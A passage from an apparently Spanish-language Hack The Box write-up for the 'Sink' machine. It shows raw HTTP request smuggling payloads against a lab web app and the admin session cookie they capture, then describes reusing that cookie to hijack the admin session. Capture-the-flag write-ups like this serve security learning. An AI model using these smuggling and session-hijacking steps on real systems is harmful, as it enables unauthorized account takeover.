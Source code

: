 ```html
9
note=hola
0

POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                        <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

Perfecto, validemos si cambia algo ahora...

Nos genera dos notas, una esta vacía y la otra llenita :P Veamos la llenita claramente:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225_done.png" style="width: 100%;"/>

Vale vale valeeeeeeeeeee, que es esta locuraaaaaaaaaaaa... Tenemos una nueva `cookie` de algún usuario (o pues al menos es diferente a la nuestra) corriendo el servicio sobre el `localhost`.

Viendo lo que tenemos podemos intuir que esta pasando:

> (Esto puede sonar enrredado (supongo) pero es lo que entiendo que paso)

🚨 ***Normalmente (como vimos en las explicaciones anteriores) queremos ingresar a algún recurso al que no tengamos acceso. Como en este caso no sabemos a cuál, lo lanzamos contra el mismo recurso. Vemos que se efectúa nuestro intento, logrando así <u>interceptar la otra petición, pero obteniendo la respuesta en el mismo recurso que usamos para enviarla</u> (o sea, en `/notes`)*** 

La petición es un `delete` a la nota **1234** (`/notes/delete/1234`) pero ejecutada desde el `localhost` por el puerto `8080` y claramente por un usuario interno, lo sabemos por qué obtenemos una `Cookie` distinta a la nuestra. Podemos usarla para cambiar la que tenemos por esa, recargar la página y ver con quien estamos (si es que cambiamos a otro usuario)...

```html
GET /notes/delete/1234 HTTP/1.1
Host: 127.0.0.1:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: session=eyJlbWFpbCI6ImFkbWluQHNpbmsuaHRiIn0.YDSQAA._g
```

Pero si notamos el tamaño de la `cookie` es más corto (la comparamos con la nuestra), agreguémosle más buffer, simplemente cambiando el valor de la cabecera a `Content-Length: 250` por ejemplo y veamos la respuesta ahora:

> (Justo acá reiniciaron la máquina, pero pues lo unico que cambiaran seran las cookies, tanto la mia como la que obtengamos)

La respuesta que tenemos en la nueva nota es:

```html
Nada ._ .
```
